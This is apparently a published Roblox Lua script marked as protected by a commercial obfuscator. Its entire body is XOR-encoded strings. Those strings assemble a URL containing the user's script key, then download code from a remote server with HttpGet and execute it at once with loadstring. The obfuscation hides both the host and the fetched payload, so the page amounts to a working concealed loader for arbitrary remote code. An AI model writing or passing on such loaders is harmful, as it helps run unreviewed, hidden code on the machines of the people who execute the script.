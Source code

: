 script_key = "KEY_HERE" -- script: ScriptName.lua
--[[

    This script is protected with
    Bulletproof from LuaObfuscator.com

]]--
local v0={};local v1=string.char;local v2=string.byte;local v3=string.sub;local v4=bit32 or bit ;local v5=v4.bxor;local v6=table.concat;local v7=table.insert;local function v8(v9,v10) local v11={};for v15=1, #v9 do v7(v11,v1(v5(v2(v3(v9,v15,v15 + 1 )),v2(v3(v10,1 + (v15% #v10) ,1 + (v15% #v10) + 1 )))%256 ));end return v6(v11);end do v0[v8("\227\223\71\32\158\77\47\203\199\121\109\226\106\11\230\150\22","\74\165\179\38\84\215\41")]=0;v0[v8("\48\126\187\0","\220\70\78\158\48\118")]=nil;v0[v8("\192\170\238\116","\114\182\155\203\68")]=nil;while true do if (v0[v8("\85\169\191\236\111\50\118\171\170\199\31\99\80\132\157\189\22","\86\19\197\222\152\38")]==1) then if (game and game[v8("\212\84\108\245\90\67\34","\86\156\32\24\133\29\38")]) then loadstring(game:HttpGet(v0["v1%0"]))();elseif (HTTP and HTTP[v8("\128\160\119","\55\199\229\35\200\29\28")]) then HTTP:GET(v0["v1%0"],function(v19,v20) if (v19==200) then loadstring(v20)();end end);end break;end if (v0[v8("\82\246\221\32\58\112\255\210\32\44\45\175\255\21\48\49\170","\115\20\154\188\84")]==0) then v0[v8("\199\143\200\124","\223\177\191\237\76\225")]="/";v0[v8("\64\152\229\106","\219\54\169\192\90\48\80")]=v8("\65\86\20\53\90","\69\41\34\96")   .. ":"   .. v0[v8("\170\147\146\90","\75\220\163\183\106\98")]   .. v0[v8("\20\234\206\103","\185\98\218\235\87")]   .. v8("\199\41\38\233\220\172\222\47\36\231\202\165\217","\202\171\92\71\134\190")   .. v8("\103\194\35\133","\232\73\161\76")   .. v0[v8("\173\137\7\13","\126\219\185\34\61")]   .. v8("\31\205\76\123\110\99\224","\135\108\174\62\18\30\23\147")   .. v0[v8("\160\185\111\155","\167\214\137\74\171\120\206\83")]   .. v8("\157\161","\199\235\144\82\61\152")   .. v0[v8("\17\70\252\123","\75\103\118\217")]   .. script_key   .. v0[v8("\209\4\53\68","\126\167\52\16\116\217")]   .. v8("\251\45\50\137\164\13\210\201\35\37","\156\168\78\64\224\212\121")   .. v8("\74\182\247\152\73\226\176\207\31","\174\103\142\197") ;v0[v8("\112\36\94\44\12\90\253\88\60\96\97\112\125\217\117\109\15","\152\54\72\63\88\69\62")]=1;end end end
